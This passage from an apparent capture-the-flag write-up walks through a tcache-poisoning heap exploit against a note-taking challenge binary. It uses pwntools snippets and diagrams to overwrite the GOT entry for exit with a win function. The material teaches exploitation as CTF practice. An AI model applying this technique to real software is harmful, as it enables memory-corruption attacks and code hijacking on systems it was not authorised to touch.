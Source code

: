 The tcache now looks like this:
```
chunk1 -> chunk0 -> NULL
```

Now we can update the content of the note corresponding to `chunk1`, so that it points to the address of the `GOT` entry for `exit` instead of `chunk0`.
```python
# Make the first chunk in the tcache point to the GOT address of exit next
update(1, pack(exe.got.exit))
```
{: .nolineno }

The tcache looks like this after the update:
```
chunk1 -> GOT@exit -> NULL
```

Now we can create a new note to allocate the first chunk in the tcache. This chunk is just a normal chunk, so we can put whatever data we want into it.
```python
# Allocate the "normal" chunk in the tcache,
# which points to the GOT address of exit as the next chunk
create(b"A"*0x10)
```
{: .nolineno }

This leaves only one chunk left in the tcache, which is the `GOT` entry for `exit`.
```
GOT@exit -> NULL
```

This means that the next chunk we allocate will be the `GOT` entry for `exit`. When we create the note which allocates this chunk, the data we put into the note will overwrite the address of `exit` that is stored in the `GOT` entry. If we write the address of `win` into our note, the `GOT` entry for `exit` will point to the `win` function, instead of the `exit` function.
```python
# The next chunk we allocate will be the GOT address of exit,
# so the data we put in it will overwrite the GOT entry for exit,
# thus we overwrite exit with the address of win, so that win is called if exit is called
create(pack(exe.sym.win))
```
{: .nolineno }

Now that we have overwritten the `exit` function with the `win` function, we can choose the `Exit` option in the menu, which will try to call the `exit` function, but will instead call the `win` function because of our GOT overwrite.
```python
# Choose option 5, which calls exit, but because of our overwrite actually calls win
io.sendlineafter(b"> ", b"5")
```
{: .nolineno }


We could also have overwritten other GOT entries than `exit` in this challenge, such as `puts`, but in other challenges potentially can cause the program to crash, based on what the address is stored in the GOT entry we try to overwrite. The `exit` function is a safe choice in this case, because it has not been called before we overwrite the GOT entry for it.
